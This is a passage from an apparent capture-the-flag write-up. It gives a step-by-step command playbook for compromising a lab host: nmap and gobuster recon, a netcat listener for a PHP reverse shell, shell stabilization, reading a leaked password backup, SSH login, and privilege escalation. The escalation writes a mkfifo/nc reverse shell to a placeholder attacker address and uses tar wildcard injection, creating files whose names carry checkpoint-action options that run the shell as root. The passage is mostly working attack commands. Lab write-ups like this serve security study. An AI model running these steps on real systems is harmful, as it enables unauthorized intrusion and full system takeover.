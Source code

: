 
## 10. Full command timeline (playbook)

Below is a concise list of the key commands used during the engagement. Use this as a step-by-step playbook (replace IPs & paths as necessary).

```bash
# Recon
nmap -sV 10.10.233.238
gobuster dir -u http://10.10.233.238 -w /usr/share/wordlists/dirb/common.txt
# or ffuf

# Receive initial shell
nc -lnvp 4444
# trigger php reverse shell on webapp

# stabilize
python3 -c "import pty; pty.spawn('/bin/bash')"

# inspect
ls -la /tmp
cat /opt/.password.bak

# SSH as andre
ssh andre@10.10.233.238
# password: UQfsdCB7aAP6
cat ~/user.txt

# prepare root exploit on attacker side
nc -lnvp 8888
# on target (andre)
cd ~/backup
echo "mkfifo /tmp/lhennp; nc <ATTACKER_IP> 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
# create files with option-like names (these will be processed by backup script)
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# wait for root shell back
# confirm
id
cat /root/root.txt
```

---

## 11. Notes & Responsible Disclosure

* This writeup is intended for educational purposes. Do not attempt to run these attacks against systems you do not own or have permission to test.
* If you are publishing this on GitHub: redact any real IPs, personal contact details, or organization names unless you have authorization.

---
